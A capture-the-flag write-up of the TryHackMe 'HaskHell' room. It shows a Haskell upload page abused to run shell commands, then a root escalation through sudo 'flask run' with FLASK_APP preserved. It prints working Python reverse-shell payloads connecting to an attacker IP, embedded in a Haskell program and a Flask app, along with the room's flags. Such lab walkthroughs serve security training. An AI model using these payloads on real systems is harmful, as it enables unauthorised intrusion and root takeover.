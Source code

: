 # Tryhackme.com Room : HaskHell

`https://tryhackme.com/room/haskhell`

## Instance

```bash
export IP="10.10.243.31"
```

## Nmap

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial Foothold

We have a website on port `5001` which is a "school" website for a class on haskell.

We find an "homework" at `:5001/homework1` 

```
Welcome to your first homework assignment! Your problems are as follows.

1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code"

All of your functions must have the types correctly declared. I'll give you number one for free, as an example: fib :: Int -> Int -> [Int]
```

The is a link pointing to `/upload` which is where we are supposed to submit the homework (haskell program) but it return a `404`.

Running `gobuster` we find that the actual submission page is on `/submit`



Once submitted, the haskell script is compiled on the server and runned. The output goes to `/uploads`.



We write this simple `fib` script :

```haskell
fib :: Int -> Int
fib 0 = 0
fib 1 = 1
fib n = fib (n - 1) + fib (n - 2)

main = do
    let result = fib 7
    print result
```

When we upload it, we get this output at `/uploads/fib.hs` :

```
[1 of 1] Compiling Main             ( /home/flask/uploads/fib.hs, /home/flask/uploads/fib.o )
Linking /home/flask/uploads/fib ...
13
```

Seems like the server running this is `flask` so it's in `python`



Looking at haskell doc, we find that we can execute shell cmd with `System.Process.readProcess`.

We write this little test program :

```haskell
import System.Process

main = do
    resp <- readProcess "ls" [] ""
    print resp
```

And we get

```
[1 of 1] Compiling Main             ( /home/flask/uploads/shell.hs, /home/flask/uploads/shell.o )
Linking /home/flask/uploads/shell ...
"app.py\napp.pyc\n__pycache__\nuploads\n"
```

Time to get a revshell.

We do it with

```haskell
import System.Process

main = do
    resp <- readProcess "sh" ["-c", "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.6.32.20\",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"] ""
    print resp
```

And we got a shell as the user `flask`



We have access to `/home/prof` so we can retrieve `/home/prof/user.txt` :

```
flag{academic_dishonesty}
```

We can also retrieve the ssh key in `/home/prof/.ssh` so we can use ssh to connect as `prof`

## Priv Esc

Now that we are `prof` we cam run `sudo -l` and we get :

```
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

We see that `FLASK_APP` env variable is kept so



We craft this small flask app (I guess we wouldn't really need to have a valid flask app)

```python
from flask import Flask
app = Flask(__name__)

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

@app.route('/')
def hello_world():
    return 'Hello, World!'
```



And we get a reverse shell as `root`



`/root/root.txt` :

```
flag{im_purely_functional}
```



## Wrap up

* This was a pretty easy challenge. The "difficult part" was figuring out the haskell syntax.
* Confirmed that we could get a reverse shell with a python script containing only our rev shell. No need to have a valid flask app